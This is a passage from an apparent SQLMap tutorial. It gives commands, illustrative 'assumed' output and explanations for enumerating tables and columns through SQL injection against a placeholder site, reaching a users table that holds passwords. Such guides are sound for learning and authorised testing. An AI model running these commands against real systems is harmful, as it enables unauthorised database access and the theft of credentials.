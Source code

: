 **Description:**
This command lists all the databases present on the target database server. SQLMap exploits the SQL injection vulnerability to enumerate the database names.

### 4. Enumerate Tables

**Command:**
```bash
sqlmap -u "http://example.com/product?id=1" -D exampledb --tables
```

**Assumed Output:**
```
[21:50:32] [INFO] fetching tables for database: 'exampledb'
Database: exampledb
[25 tables]
+----------------------+
| users                |
| products             |
| orders               |
| customers            |
...
+----------------------+
```

**Description:**
This command lists all the tables in the specified database (`exampledb`). SQLMap uses the `-D` option to specify the database name and `--tables` to enumerate the tables.

### 5. Enumerate Columns

**Command:**
```bash
sqlmap -u "http://example.com/product?id=1" -D exampledb -T users --columns
```

**Assumed Output:**
```
[21:53:45] [INFO] fetching columns for table 'users' in database 'exampledb'
Database: exampledb
Table: users
[5 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| username | varchar(50) |
| password | varchar(50) |
| email    | varchar(100)|
| created  | datetime    |
+----------+-------------+
```

**Description:**
This command lists all the columns in the specified table (`users`) within the specified database (`exampledb`). The `-T` option specifies the table name, and `--columns` is used to enumerate the columns.
